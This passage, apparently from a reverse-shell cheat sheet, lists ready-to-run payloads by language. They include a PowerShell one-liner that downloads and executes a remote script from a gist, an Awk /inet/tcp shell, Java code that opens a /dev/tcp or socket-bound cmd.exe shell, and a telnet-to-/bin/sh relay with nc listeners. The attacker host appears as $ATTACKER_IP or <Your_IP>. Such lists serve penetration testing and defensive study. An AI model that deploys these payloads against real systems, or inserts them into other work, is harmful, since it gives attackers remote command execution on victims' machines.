 ```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

#### Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/$ATTACKER_IP/$ATTACKER_PORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

#### Java

```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();

```

##### Java Alternative 1

```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

##### Java Alternative 2

```java
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```

#### Telnet
```bash
In Attacker machine start two listeners:
nc -lvp 8080
nc -lvp 8081

In Victime machine run below command:
telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081
```
